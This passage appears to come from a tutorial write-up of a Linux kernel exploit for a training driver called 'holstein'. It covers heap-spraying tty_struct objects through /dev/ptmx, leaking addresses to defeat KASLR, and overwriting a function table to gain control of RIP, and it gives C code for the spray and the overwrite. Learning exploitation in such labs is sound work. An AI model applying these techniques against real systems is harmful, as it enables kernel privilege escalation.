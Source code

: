 ## So what's the attack plan?

We use heap spray because unlike the userspace heap, the kernel heap has no granularity that that chunk are allocate next to our overflow chunk. So even if we can overflow the `g_buf` buffer, we cannot guarantee that the `tty_struct` structure will be allocated next to it. So we need to use heap spray to allocate many `tty_struct` structures, and hope that one of them will be allocated next to the `g_buf` buffer.

```c
void spray()
{
    for (int i = 0; i < SPRAY_NUM / 2; i++)
    {
        _spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
        if (_spray[i] == -1)
            errExit("open ptmx");
    }

    fd = open("/dev/holstein", O_RDWR);
    if (fd == -1)
        errExit("open holstein");

    for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++)
    {
        _spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
        if (_spray[i] == -1)
            errExit("open ptmx");
    }

}
```

After this, we can have a high probability that one of the `tty_struct` structures will be allocated next to the `g_buf` buffer.

## Kernel ROP

Because the kernel has `KASLR` enabled, we need to leak a kernel address to bypass it. We can use the `read()` function to read the contents of the `g_buf` buffer, then just dump the contents of the `g_buf` buffer to find a kernel address. We also need `heap` address which is `g_buf` address to build the ROP chain too. Because we can't directly control the return address like stack overflow, we need to find a way to pivot the to our payload. RIP can be controlled by performing appropriate operations on the rewritten `tty_struct`, but we don't know which `tty_struct`, so let's operate on all the FDs that have been sprayed. Also, since we don't know the position of the function pointer being called, we create a suitable function table and determine the position of the function pointer being called from the crash message.

```c
// payload take from pawnyabe.cafe
// i'm too lazy to write my own (just because i deleted my old exploit code :< )
g_buf = *(unsigned long*)&buf[0x438] - 0x438;
printf("[+] g_buf = 0x%016lx\n", g_buf);

unsigned long *p = (unsigned long*)&buf;
for (int i = 0; i < 0x40; i++) {
  *p++ = 0xffffffffdead0000 + (i << 8);
}
*(unsigned long*)&buf[0x418] = g_buf;
write(fd, buf, 0x420);

for (int i = 0; i < 100; i++) {
  ioctl(spray[i], 0xdeadbeef, 0xcafebabe);
}
```
